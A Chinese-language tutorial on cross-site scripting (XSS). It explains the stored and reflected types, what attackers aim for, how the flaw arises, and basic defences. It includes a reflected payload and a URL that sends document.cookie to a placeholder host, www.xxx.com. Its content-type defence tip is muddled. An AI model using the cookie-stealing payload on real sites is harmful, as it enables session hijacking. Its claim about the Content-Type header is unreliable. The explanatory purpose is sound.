# XSS攻击与防范

XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，
故将跨站脚本攻击缩写为XSS。XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。

这个是动态站点的威胁，静态站点完全不受其影响。

## XSS分类

***存储型XSS：***

    主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。
    应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。
    这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。

***反射型XSS：***

    将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS目前主要的手段和目的如下：

* 盗用cookie，获取敏感信息。
* 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
* 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作， 或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
* 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
* 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

## XSS原理

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是">"、"<")， 并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

以反射性XSS举例说明XSS的过程，现在有一个网站，根据参数输出用户的名称， 例如访问url：`http://127.0.0.1/?name=foobar`，就会在浏览器输出如下信息：

```
hello foobar
```

如果我们传递这样的url：

```
http://127.0.0.1/?name=<script>alert('foobar')</script>
```

这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。

那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：

```
http://127.0.0.1/?name=<script>document.location.href='http://www.xxx.com/cookie?'+document.cookie</script>
```

这样就可以把当前的cookie发送到指定的站点：`www.xxx.com`

你也许会说，这样的URL一看就有问题，怎么会有人点击？是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短 ，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，
相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息， 然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

## 预防XSS

答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

* 过滤特殊字符

避免XSS的方法之一主要是将用户所提供的内容进行过滤。

* 使用HTTP头指定类型

```js
header.set("Content-Type","text/javascript")
```

这样就可以让浏览器解析javascript代码，而不会是html输出。

## 总结

XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。

